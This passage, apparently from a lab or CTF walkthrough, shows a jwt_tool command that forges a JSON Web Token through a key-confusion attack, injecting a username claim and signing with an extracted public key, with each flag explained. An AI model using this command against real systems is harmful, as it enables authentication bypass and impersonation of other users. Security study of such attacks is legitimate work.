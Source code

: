 <figure><img src="../.gitbook/assets/Untitled 12.png" alt=""><figcaption></figcaption></figure>

### Generating Token using jwt\_tool

Now, its time to generate a token using `jwt_tool`. Use the following command to generate a token:

```bash
jwt_tool $(cat sessionToken) -I -pc username -pv someone -X k -pk ./publickey

// Here 
// $(cat sessionToken) : The session token that you got from a valid login
// -I : Inject
// -pc : variable to inject
// -pv : value of the variable to be injected
// -X : Exploit type
// k : Key-Confusion attack
// -pk : public key that we have extracted from the token
```
